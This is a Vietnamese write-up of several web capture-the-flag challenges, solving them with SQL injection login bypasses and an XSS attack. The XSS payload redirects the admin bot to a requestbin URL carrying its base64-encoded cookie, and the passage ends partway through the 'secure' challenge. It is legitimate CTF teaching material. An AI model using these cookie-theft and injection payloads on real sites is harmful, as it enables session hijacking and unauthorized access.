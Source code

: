 ### Solution
Vậy bây giờ chúng ta chỉ cần cho username=admin và set password trả về true là được

### Payload
```
username=admin&password=' or True -- -
```
Flag -> `flag{sqli_overused_again_0b4f6}`

## Challenge pastebin-1
Chúng ta được cung cấp 1 file RUST là `main.rs` => trang web này được viết bằng RUST. Đọc source thì thấy có function create có chức năng sẽ nhận vào một content tiếp tục. content không được filter hay block gì.
Và ở description tác giả có nhắc đến cookie admin vậy có lẽ là xss.

### Solution
Thử payload trigger xss như `<script>alert(1);</script>` => thành công. Vậy bây giờ chúng ta chỉ cần get cookie admin và cũng như đó là flag.

### Payload
```js
<script>document.location="http://requestbin.net/r/gkwyrn0t?cc="+btoa(document.cookie)</script>
```
Copy url /view?id của các bạn và send cho bot để visit. Cuối cùng base64 decode chuỗi nhận được sẽ có flag
flag -> `flag{d1dn7_n33d_70_b3_1n_ru57}`

## Challenge secure
```js
db.exec(`INSERT INTO users (username, password) VALUES (
    '${btoa('admin')}',
    '${btoa(crypto.randomUUID)}'
)`);
```
Chú ý vô code trên thì thấy trong db có chứa account admin là username=base64 encode của admin và password là base64 encode của chuỗi random.
Ở router `/login`
```js
const query = `SELECT id FROM users WHERE
          username = '${req.body.username}' AND
          password = '${req.body.password}';`;
  try {
    const id = db.prepare(query).get()?.id;

    if (id) return res.redirect(`/?message=${process.env.FLAG}`);
```
câu query trên truyền trực tiếp username và password là 2 cái chúng ta có thể control đc mà không bị filter bất cứ thứ gì => ez sql injection
Nhưng đời không như là mơ có một script xử lý username và password ở phía client 
```js
const username = document.createElement('input');
        username.setAttribute('name', 'username');
        username.setAttribute('value',
          btoa(document.querySelector('#username').value)
        );

        const password = document.createElement('input');
        password.setAttribute('name', 'password');
        password.setAttribute('value',
          btoa(document.querySelector('#password').value)
        );
```
nó sẽ base64 encode username và password mình nhập vào rồi sau đó mới mang đi xử lý.